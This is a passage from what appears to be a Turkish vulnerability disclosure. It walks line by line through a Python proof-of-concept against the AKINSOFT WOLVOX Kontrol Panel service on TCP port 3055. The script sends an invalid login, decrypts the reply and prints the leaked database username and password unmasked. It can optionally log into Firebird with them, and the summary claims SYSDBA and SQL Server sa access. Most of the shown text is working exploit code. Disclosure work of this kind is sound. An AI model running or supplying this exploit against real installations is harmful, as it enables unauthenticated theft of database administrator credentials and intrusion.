| `PASSWORD` | Sabit `INVALID` değeri. |
| `CLIENTID` | Test istemcisi için `DISCLOSURE-POC` tanımlayıcısı. |
| `PROGRAM` | İstek içinde gönderilen program kodu: `WOO`. |
| `EXENAME` | İstemcinin bildirdiği yürütülebilir dosya adı: `werp.exe`. |
| `EXEDIRNAME` | İstemcinin bildirdiği uygulama dizini. |
| `EXEVERSIYON` | Paket içinde **istemcinin bildirdiği** sürüm metni. Sunucunun sürümünü tespit etmiyor. |
| `PATH` | İstekle gönderilen uygulama yolu. |
| `SETUPFILENAME` | Bu örnekte boş bırakılan alan. |

Windows yollarının başındaki `r` öneki, Python'un ters bölü işaretlerini (`\`) kaçış karakteri olarak yorumlamamasını sağlıyor.

Son satırdaki `"\r\n".join(...)`, listedeki satırları CRLF ile birleştiriyor. Bu fonksiyon şifreleme yapmıyor; şifreleme işi `encrypt_packet()` içinde.

## 7. TCP bağlantısı: `send_request()`

```python
def send_request(
    host: str,
    port: int,
    packet: str,
) -> tuple[int, list[str]]:

    wire = bytearray()

    with socket.create_connection((host, port), timeout=5) as sock:
        sock.settimeout(2)

        sock.sendall(encrypt_packet(packet))

        while True:
            try:
                chunk = sock.recv(65535)
            except socket.timeout:
                break

            if not chunk:
                break

            wire.extend(chunk)

    messages = []

    for line in bytes(wire).splitlines():
        value = decrypt_line(line.strip())

        if value is not None:
            messages.append(value)

    return len(wire), messages
```

**`wire = bytearray()`** — TCP'den gelen veri parçalarını tek bir tamponda biriktiriyorum. `bytearray`, `bytes` nesnesinden farklı olarak sonradan genişletilebiliyor.

**`socket.create_connection((host, port), timeout=5)`** — Belirtilen adrese TCP bağlantısı açıyorum. Bağlantı kurma aşamasının zaman aşımı 5 saniye.

**`with ... as sock`** — Bloktan çıkarken soketin kapanmasını sağlıyor.

**`sock.settimeout(2)`** — Bağlantı kurulduktan sonraki soket işlemlerine 2 saniyelik zaman aşımı uyguluyorum.

**`sock.sendall(encrypt_packet(packet))`** — Önce metin isteğini protokol biçiminde şifreliyorum, ardından çıkan byte dizisinin tamamını sokete göndermeye çalışıyorum.

**`while True`** — Yanıtı tek seferde geleceğini varsaymadan parça parça okumak için döngü kuruyorum. TCP, mesaj sınırlarını kendiliğinden koruyan bir protokol değil.

**`sock.recv(65535)`** — Tek okumada en fazla 65.535 byte alıyorum. Bu sayı beklenen yanıt uzunluğu değil, bir okumanın üst sınırı.

**`except socket.timeout: break`** — Belirlenen sürede yeni veri gelmezse okuma döngüsünden çıkıyorum.

**`if not chunk: break`** — Karşı taraf bağlantıyı kapatıp boş byte dizisi döndürürse okumayı bitiriyorum.

**`wire.extend(chunk)`** — Her yeni parçayı tamponun sonuna ekliyorum.

Bağlantı kapandıktan sonra `bytes(wire).splitlines()` ile biriken veriyi satırlara ayırıyorum. Her satırı `decrypt_line()` fonksiyonuna veriyorum; `None` olmayan sonuçları `messages` listesine ekliyorum.

Fonksiyon `return len(wire), messages` ile iki şey döndürüyor: ağdan alınan ham byte sayısı ve çözülebilen mesajların listesi. `len(wire)`, çözülen metnin değil ham TCP yanıtının uzunluğu.

## 8. Firebird kullanıcı doğrulaması: `validate_db()`

```python
def validate_db(
    isql: Path,
    database: str,
    username: str,
    password: str,
) -> dict:

    sql = (
        "set list on;\n"
        "select current_user from rdb$database;\n"
        "quit;\n"
    )

    proc = subprocess.run(
        [
            str(isql),
            "-user",
            username,
            "-password",
            password,
            database,
        ],
        input=sql,
        text=True,
        capture_output=True,
        encoding="cp1254",
        errors="replace",
        timeout=20,
    )

    current_user = None

    for line in proc.stdout.splitlines():
        fields = line.strip().split()

        if len(fields) >= 2 and fields[0].upper() in {
            "USER",
            "CURRENT_USER",
        }:
            current_user = fields[-1]
            break

    return {
        "attempted": True,
        "query": "SELECT CURRENT_USER FROM RDB$DATABASE",
        "returncode": proc.returncode,
        "current_user": current_user,
        "success": current_user is not None,
        "stdout": proc.stdout[-1500:],
        "stderr": proc.stderr[-1500:],
    }
```

Bu fonksiyonu ana kontrolün dışında, **isteğe bağlı** bir doğrulama adımı olarak ayırdım. Dönen alanlarda kullanıcı adı ve parola bulunmasıyla, bu bilgilerin Firebird bağlantısında kullanılabilmesi aynı kontrol değil.

### SQL kısmı

**`set list on;`** — `isql` çıktısını liste biçimine alıyor.

**`select current_user from rdb$database;`** — Firebird oturumundaki mevcut kullanıcı adını sorguluyor. `RDB$DATABASE`, Firebird'ün sağladığı sistem tablosu.

**`quit;`** — Sorgudan sonra istemci oturumunu sonlandırıyor.

### Harici istemciyi çalıştırmak

**`subprocess.run([...])`** — Firebird `isql` programını ayrı bir işlem olarak başlatıyorum. Argüman listesini sırayla yürütülebilir dosya yolu, `-user`, kullanıcı adı, `-password`, parola ve veritabanı adresi oluşturuyor. Liste verdiğim için burada bir shell komut satırı metni oluşturmuyorum.

**`input=sql`** — Hazırladığım SQL metnini işlemin standart girişine gönderiyor.

**`text=True`** — Giriş ve çıkışları metin olarak ele alıyor.

**`capture_output=True`** — Standart çıktıyı (`stdout`) ve hata çıktısını (`stderr`) Python'a topluyor.

**`encoding="cp1254", errors="replace"`** — İstemci çıktısını CP1254 ile yorumluyor; çözülemeyen karakterlerde yerine koyma davranışını kullanıyor.

**`timeout=20`** — Harici işlemin en fazla 20 saniye çalışmasını bekliyor; süre aşılırsa `subprocess.run()` istisna üretebilir.

### Çıktıdan kullanıcı adını okumak

Önce `current_user = None` diyorum. `proc.stdout.splitlines()` ile çıktıyı satır satır geziyorum. `line.strip().split()` ile her satırı boşluklardan parçalıyorum. İlk parça `USER` veya `CURRENT_USER` ise son parçayı kullanıcı adı olarak alıp `break` ile döngüyü bitiriyorum.

Buradaki `success`, yalnızca `current_user is not None` koşuluna bağlı. Yani kod **çıkışta kullanıcı adı tespit edilmesini** başarı kabul ediyor; `proc.returncode == 0` koşulunu ayrıca aramıyor ve yönetici rolünü ayrıca sorgulamıyor.

Döndürdüğüm sözlükte denemenin yapılıp yapılmadığı, sorgu metni, işlem çıkış kodu, ayrıştırılan kullanıcı adı ve `stdout`/`stderr` çıktılarının son 1.500 karakteri var.

## 9. Terminal parametreleri: `main()`

```python
def main() -> int:
    parser = argparse.ArgumentParser()

    parser.add_argument(
        "--host",
        required=True,
        help="Kontrol Panel host",
    )

    parser.add_argument(
        "--port",
        type=int,
        default=3055,
    )

    parser.add_argument(
        "--validate-db",
        action="store_true",
    )

    parser.add_argument(
        "--isql",
        type=Path,
    )

    parser.add_argument(
        "--database",
        help=r"Firebird DSN, örnek: HOST:C:\path\SIRKET.FDB",
    )

    parser.add_argument(
        "--json-out",
        type=Path,
    )

    args = parser.parse_args()
```

`ArgumentParser` ile bütün seçenekleri tek yerde tanımlıyorum:

| Parametre | Davranışı |
| --- | --- |
| `--host` | Zorunlu hedef adres. `required=True` sayesinde verilmediğinde `argparse` hata gösteriyor. |
| `--port` | Tam sayı port değeri; varsayılan `3055`. |
| `--validate-db` | Varsa `True`, yoksa `False` olan bir bayrak. |
| `--isql` | Firebird `isql` dosya yolu; `Path` olarak okunuyor. |
| `--database` | Firebird veritabanı bağlantı adresi/DSN. |
| `--json-out` | JSON çıktısının yazılacağı dosya yolu; `Path` olarak okunuyor. |

`args = parser.parse_args()` çağrısı terminalde verilen değerleri okuyup `args` nesnesine yerleştiriyor.

Bir sonraki kontrol şu:

```python
if args.validate_db and (args.isql is None or not args.database):
    parser.error(
        "--validate-db requires --isql and --database"
    )
```

`--validate-db` seçilmişse `--isql` ve `--database` parametrelerinin de gelmesini şart koşuyorum. Eksikse `parser.error()` açıklayıcı bir hatayla çalışmayı sonlandırıyor.

## 10. Rastgele geçersiz kullanıcı adı üretmek

```python
invalid_username = (
    f"mallory_invalid_{uuid.uuid4().hex[:12]}"
)
```

`uuid.uuid4()` rastgele UUID oluşturuyor. `.hex` ile hexadecimal metnini alıyorum; `[:12]` yalnızca ilk 12 karakteri seçiyor. Başına `mallory_invalid_` ekliyorum.

Böylece kod her çalıştığında ayırt edilebilir, yeni bir kullanıcı adı üretiyor. Kullanıcı adının sabit olmaması test çıktılarında farklı denemeleri birbirinden ayırmayı da kolaylaştırıyor.

## 11. Fonksiyonları birbirine bağlamak

```python
wire_bytes, messages = send_request(
    args.host,
    args.port,
    invalid_login_packet(invalid_username),
)

fields = parse_fields(messages)
```

Kodun ana akışı burası. Önce `invalid_login_packet(invalid_username)` metin tabanlı isteği oluşturuyor. Bu metin `send_request()` içine giriyor; orada şifrelenip TCP üzerinden gönderiliyor ve gelen yanıt çözülüyor.

Dönen iki değeri `wire_bytes` ve `messages` değişkenlerine açıyorum. Sonra `parse_fields(messages)` ile çözülmüş metindeki `ALAN=DEĞER` satırlarını sözlüğe dönüştürüyorum.

## 12. Çözülmüş alanları ekrana yazdırmak

```python
#
# TÜM DECRYPT EDİLMİŞ RESPONSE
#
print()
print("=" * 70)
print("DECRYPTED RESPONSE FIELDS")
print("=" * 70)

for key, value in fields.items():
    print(f"{key}={value}")

print("=" * 70)
print()
```

`print()` boş satır basıyor. `"=" * 70` ise 70 eşittir işaretinden oluşan bir ayraç üretiyor.

`fields.items()` sözlüğün anahtar-değer çiftlerini dolaşıyor; `print(f"{key}={value}")` her alanı orijinal `ALAN=DEĞER` mantığına yakın biçimde gösteriyor. Kod bu aşamada değerleri olduğu gibi yazdırıyor; ek bir maskeleme veya filtreleme yapmıyor.

## 13. İlgilendiğim üç alanı seçmek

```python
db_username = fields.get(
    "SERVER_USERNAME",
    "",
)

db_password = fields.get(
    "SERVER_PASSWORD",
    "",
)

auth_error = fields.get(
    "SERVER_ERROR",
    "",
)
```

Bütün alanları göstermek ayrı, kontrol için gereken alanları seçmek ayrı. Bu yüzden `SERVER_USERNAME`, `SERVER_PASSWORD` ve `SERVER_ERROR` değerlerini tek tek alıyorum.

`fields.get("...", "")` kullanmamın sebebi alan bulunmadığında `KeyError` almamak. Alan yoksa boş metin geliyor.

Karar koşulu da şu:

```python
vulnerable = bool(
    auth_error
    and db_username
    and db_password
)
```

Python'da boş metin `False`, dolu metin `True` kabul edilir. `and` ifadesi üç alanın da boş olmamasını arıyor; `bool(...)` sonucu açıkça `True` veya `False` hâline getiriyor.

Buradaki `vulnerable` sonucu, **bir hata alanıyla birlikte boş olmayan veritabanı kullanıcı adı ve parola alanlarının yanıtta yer almasına** bağlı. Bu koşul tek başına parola doğrulaması veya yetki kontrolü yapmıyor; fonksiyonun tespit kriteri tam olarak bu.

## 14. Opsiyonel doğrulamayı çalıştırmak

```python
db_result = {
    "attempted": False,
    "success": False,
}

if (
    args.validate_db
    and db_username
    and db_password
):
    db_result = validate_db(
        args.isql,
        args.database,
        db_username,
        db_password,
    )
```

İlk olarak doğrulamanın yapılmadığını gösteren varsayılan bir sonuç hazırlıyorum.

Ardından üç şarta bakıyorum: `--validate-db` açık olacak, kullanıcı adı boş olmayacak ve parola boş olmayacak. Hepsi sağlanırsa `validate_db()` çağrılıyor ve başlangıçtaki `db_result` sözlüğünün yerini fonksiyonun sonucu alıyor.

Böylece ana credential-disclosure kontrolüyle Firebird kullanıcı doğrulamasını birbirinden ayrı tutuyorum.

## 15. Sonuç sözlüğü ve alanların anlamı

```python
result = {
    "target": f"{args.host}:{args.port}",
    "request_username": invalid_username,
    "request_used_valid_credentials": False,

    "response_wire_bytes": wire_bytes,

    "authentication_error_present": bool(
        auth_error
    ),

    "returned_db_username": (
        db_username or None
    ),

    "returned_db_password": (
        db_password or None
    ),

    "returned_db_password_present": bool(
        db_password
    ),

    "returned_db_password_length": (
        len(db_password)
        if db_password
        else None
    ),

    "vulnerable": vulnerable,

    "read_only_db_validation": db_result,
}
```

Bu bölümde bütün ara sonuçları tek sözlük altında topluyorum:

| Alan | Ne gösteriyor? |
| --- | --- |
| `target` | `host:port` biçimindeki bağlantı adresi. |
| `request_username` | Üretilen geçersiz kullanıcı adı. |
| `request_used_valid_credentials` | Kodda sabit `False`; giriş isteğinde geçerli hesap bilgileri kullanılmadığını belirtiyor. |
| `response_wire_bytes` | TCP'den alınan ham yanıtın byte uzunluğu. |
| `authentication_error_present` | `SERVER_ERROR` değerinin dolu olup olmadığı. |
| `returned_db_username` | `SERVER_USERNAME` değeri veya yoksa `None`. |
| `returned_db_password` | `SERVER_PASSWORD` değeri veya yoksa `None`. |
| `returned_db_password_present` | Parola alanının boş olmayan bir değeri olup olmadığı. |
| `returned_db_password_length` | Parola metninin karakter sayısı veya yoksa `None`. |
| `vulnerable` | Üç alanlı tespit koşulunun sonucu. |
| `read_only_db_validation` | İsteğe bağlı Firebird kullanıcı doğrulamasının sonucu. |

`db_username or None` ve `db_password or None` ifadelerini boş metin yerine JSON'da `null` görebilmek için kullanıyorum. `len(db_password) if db_password else None` de parola varsa uzunluğunu, yoksa `None` değerini üretiyor.

## 16. JSON üretimi ve dosyaya yazma

```python
rendered = json.dumps(
    result,
    indent=2,
    ensure_ascii=False,
)

print(rendered)

if args.json_out:
    args.json_out.write_text(
        rendered + "\n",
        encoding="utf-8",
    )
```

**`json.dumps(result, ...)`** — Python sözlüğünü JSON metnine dönüştürüyor.

**`indent=2`** — Her seviye için iki boşluk girinti ekleyerek çıktıyı okunabilir hâle getiriyor.

**`ensure_ascii=False`** — Türkçe karakterleri gereksiz yere `\u....` biçimine dönüştürmeden yazıyor.

**`print(rendered)`** — JSON sonucunu terminale basıyor.

**`if args.json_out`** — `--json-out` verilmiş mi diye kontrol ediyor.

**`args.json_out.write_text(rendered + "\n", encoding="utf-8")`** — JSON metnini istenen dosyaya UTF-8 olarak yazıyor ve sonuna newline ekliyor. `write_text()` mevcut dosyanın içeriğini yeniden yazar.

Bu aşamada JSON'a giren değerler, `result` sözlüğünde tutuldukları biçimde yazılıyor; kod parola alanına ayrıca dönüşüm uygulamıyor.

## 17. Çıkış kodu ve programın başlaması

```python
    return 0 if vulnerable else 1


if __name__ == "__main__":
    sys.stdout.reconfigure(
        encoding="utf-8",
        errors="backslashreplace",
    )

    raise SystemExit(main())
```

`return 0 if vulnerable else 1` ile tespit koşulu sağlanırsa `0`, sağlanmazsa `1` döndürüyorum. Bu değer terminalden veya başka bir betikten programın sonucunu kontrol etmeye yarıyor.

`if __name__ == "__main__"`, dosyanın doğrudan çalıştırılıp çalıştırılmadığını kontrol ediyor. Dosya başka bir Python modülünden import edildiğinde bu blok kendiliğinden çalışmıyor.

`sys.stdout.reconfigure(encoding="utf-8", errors="backslashreplace")` ile standart çıktının karakter kodlamasını UTF-8 olarak ayarlıyorum. Kodlanamayan karakterler için ters bölülü kaçış gösterimi kullanılabiliyor.

Son satırdaki `raise SystemExit(main())`, `main()` fonksiyonunu çalıştırıyor ve dönen sayıyı programın çıkış kodu olarak iletiyor.

## 18. Akışın tamamı

```text
main()
  |
  +-- argparse: parametreleri oku
  |
  +-- uuid4: geçersiz kullanıcı adı üret
  |
  +-- invalid_login_packet(): istek metnini hazırla
  |
  +-- send_request()
  |     |
  |     +-- encrypt_packet()
  |     |     CP1254 -> PKCS#7 -> Blowfish ECB -> Base64 -> CRLF
  |     |
  |     +-- TCP bağlantısı üzerinden isteği gönder
  |     +-- gelen byte'ları biriktir
  |     |
  |     +-- decrypt_line()
  |           Base64 -> Blowfish ECB -> PKCS#7 kaldır -> CP1254
  |
  +-- parse_fields(): ALAN=DEĞER satırlarını ayır
  |
  +-- SERVER_ERROR / SERVER_USERNAME / SERVER_PASSWORD kontrolü
  |
  +-- [opsiyonel] validate_db(): Firebird CURRENT_USER sorgusu
  |
  +-- result sözlüğü
  +-- JSON çıktısı
  +-- exit code
```

Burada özellikle fonksiyonları birbirinden ayırdım: `invalid_login_packet()` yalnızca isteğin metnini oluşturuyor; `encrypt_packet()` ağ biçimine çeviriyor; `send_request()` iletişimi yönetiyor; `decrypt_line()` yanıtı açıyor; `parse_fields()` alanları ayırıyor. `main()` ise bütün bunları bir araya getiriyor.

Bu ayrım sayesinde protokol katmanını incelerken paket biçimiyle TCP okuma mantığını birbirine karıştırmamış oluyorum. Zafiyetin tespit edildiği yer de netleşiyor: başarısız giriş isteğinden sonra dönen yanıtta `SERVER_ERROR` ile birlikte `SERVER_USERNAME` ve `SERVER_PASSWORD` alanlarını kontrol ettiğim bölüm.

---

## Teknik özet

```text
Product:
AKINSOFT WOLVOX

Affected component:
kontrolpanel.exe / TCP 3055 login response builder

Verified environments:
Kontrol Panel 26.02.25 + ERP 26.04.02 + Firebird
KP_VERSION=s26.02.19 bildiren SQL Server kurulumu

Attack vector:
Network

Privileges required:
None

User interaction:
None

Trigger:
Invalid / nonexistent WOLVOX login

Leaked fields:
SERVER_USERNAME
SERVER_PASSWORD

Validated credentials:
Firebird SYSDBA
Microsoft SQL Server sa / sysadmin

Primary CWE:
CWE-201


Provisional CVSS v3.1:
9.1

Vector:
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
```
